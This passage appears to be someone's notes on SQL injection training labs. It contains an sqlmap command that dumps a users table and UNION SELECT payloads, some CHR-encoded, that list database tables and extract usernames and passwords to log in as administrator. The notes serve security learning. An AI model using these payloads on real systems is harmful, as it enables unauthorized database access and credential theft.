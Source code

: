 `python3 sqlmap.py -r ../../anwer/Desktop/Gifts -p category -D public -T users --columns --dump`
![](assets/Pasted%20image%2020251010074354.png)

Gifts' UNION ALL  SELECT NULL, 'qbpzqylWuNgsypHjbhgwyfayKWXoklYtVNguBJkJULyWHqkxzq', NULL-- 0x11

SELECT * FROM information_schema.tables

Gifts' UNION SELECT table_name,(CHR(113)||CHR(98)||CHR(112)||CHR(122)||CHR(113))||(CHR(121)||CHR(108)||CHR(87)||CHR(117)||CHR(78)||CHR(103)||CHR(115)||CHR(121)||CHR(112)||CHR(72)||CHR(106)||CHR(98)||CHR(104)||CHR(103)||CHR(119)||CHR(121)||CHR(102)||CHR(97)||CHR(121)||CHR(75)||CHR(87)||CHR(88)||CHR(111)||CHR(107)||CHR(108)||CHR(89)||CHR(116)||CHR(86)||CHR(78)||CHR(103)||CHR(117)||CHR(66)||CHR(74)||CHR(107)||CHR(74)||CHR(85)||CHR(76)||CHR(121)||CHR(87)||CHR(72))||(CHR(113)||CHR(107)||CHR(120)||CHR(122)||CHR(113)) FROM information_schema.tables-- 0x11

---
---
## 10. Lab: SQL injection UNION attack, retrieving multiple values in a single column

**Instructions:**
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.


**Solution:**

Pets' UNION  SELECT username,(CHR(113)||CHR(106)||CHR(118)||CHR(107)||CHR(113))||(CHR(106)||CHR(116)||CHR(87)||CHR(68)||CHR(65)||CHR(71)||CHR(106)||CHR(122)||CHR(85)||CHR(111)||CHR(68)||CHR(86)||CHR(82)||CHR(73)||CHR(99)||CHR(77)||CHR(119)||CHR(121)||CHR(68)||CHR(90)||CHR(99)||CHR(73)||CHR(118)||CHR(68)||CHR(81)||CHR(88)||CHR(108)||CHR(110)||CHR(76)||CHR(115)||CHR(77)||CHR(65)||CHR(74)||CHR(106)||CHR(120)||CHR(79)||CHR(87)||CHR(108)||CHR(73)||CHR(112))||(CHR(113)||CHR(120)||CHR(98)||CHR(112)||CHR(113)) FROM users-- 0x11

---
---
## 11. Lab: Blind SQL injection with conditional responses
